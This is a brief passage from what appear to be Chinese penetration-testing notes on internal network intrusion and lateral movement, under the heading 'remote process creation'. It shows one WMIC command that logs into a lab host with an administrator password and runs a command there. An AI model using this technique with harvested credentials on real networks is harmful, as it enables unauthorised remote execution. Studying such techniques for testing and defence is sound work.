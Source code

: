 ![image-20220319165203798](内网渗透&横向移动/image-20220319165203798.png)

#### 远程创建进程

```javascript
wmic /node:192.168.188.100 /user:administrator /password:Admin123! process call create "cmd.exe /c ipconfig > C:\result.txt"
```

![image-20220319165338212](内网渗透&横向移动/image-20220319165338212.png)
